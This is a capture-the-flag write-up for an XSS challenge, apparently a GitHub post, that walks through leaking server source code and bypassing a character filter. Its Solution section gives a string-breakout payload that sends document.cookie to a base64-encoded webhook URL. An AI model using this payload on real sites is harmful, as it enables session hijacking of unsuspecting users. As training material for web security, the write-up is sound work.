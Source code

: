 **This writeup credit goes to [@vicevirus](https://github.com/vicevirus) and [@w0rmhol3](https://github.com/w0rmhol3) for teaching me on this challenge.**

![image](https://github.com/user-attachments/assets/5cc5bd19-24e2-4c64-b3d9-86073416b1b1)
<br>Hint 1: Can we execute code inside the script tag?
<br>Hint 2: Javascript code will not execute if got syntax error
<br>Hint 3: Try to execute your payload in developer tools > console tab

# Exploration
Same thing as XSS-GPT, we need to send XSS payload to admin for admin cookie's.
<br> After tinkering with the request settings, I was able to trigger an error and return some source code behind ther server.
<br> Instead of sending content-type as ```application/x-www-form-urlencoded```, send it as ```application/json```.
![image](https://github.com/user-attachments/assets/fa804b46-52cd-48f7-a6f9-97e8950a159d)
<br> This is a bit hard to see, let me show you how to trigger a response with chrome console tab.

![image](https://github.com/user-attachments/assets/b030b47b-2397-4b88-9bc1-cfdccd787452)
![image](https://github.com/user-attachments/assets/6a697427-bf9c-49b9-9a11-6bc74da058e3)
![image](https://github.com/user-attachments/assets/971e63dd-1865-42f3-9441-3ca9f72d6276)
![image](https://github.com/user-attachments/assets/b096a404-5d9e-4d45-9603-e37b789cfcf0)

Now we can scroll thru some of the source code given, then i notice this special line of code.
![image](https://github.com/user-attachments/assets/9a000faa-184c-443d-89b0-fde992dfee9f)
<br> This a line code basically means that if our payload has any <, > or //. It will not execute the admin viewing.
<br> equally meaning the method of using <script> tag won't work here.
![image](https://github.com/user-attachments/assets/1f21d977-8bb2-4618-8f5b-f05cf3eda684)
<br> Based on the source code, a lot of people first instinct is to play around the "" to escape it and run custom code. (AHEMMM*** me too)
<br> However, that would'nt work as because javascript doesn't allow one line with multi execution within a function.
<br> that means i can't do this, code1; code2; code3; (it will trigger error and not run)

**Note: I'm not sure about the explaination is correct, contact me on discord if I made a mistake. Discord: DTX#7791**

<br>Therefore, the trick is to spilt the function in three function. one to close the function above, one to close function below, one for the payload. (Thanks to the sifu mentioned above telling me this)

# Solution
the payload should look something like this
<br>```");}(function(){location.href=atob('aHR0cHM6Ly93ZWJob29rLnNpdGUvNjQ2NzkwMTEtN2EyNS00NmIzLThlYTEtMGE4NmM2NTQyYTMzP2M9')+document.cookie})();function h(){alert("```

<br>```');}``` is use to close the sendRequest() function
<br>```function h(){alert("``` is use to create a new function called h to close the function bracket below. and alert(" to close the leftover ");
<br>lastly the middle part is the payload, we need to convert the url to base64 because https:// syntax will trigger the filter.

Make sure encode the payload with URL encoding.
![image](https://github.com/user-attachments/assets/b3d121f2-1375-47ca-8afb-b0ef935affc9)
![image](https://github.com/user-attachments/assets/de3fa1be-2114-49a2-b7a3-4d69ef3af1ba)
![final](https://github.com/user-attachments/assets/ccd835d4-7467-4c85-b945-662460a03b7d)

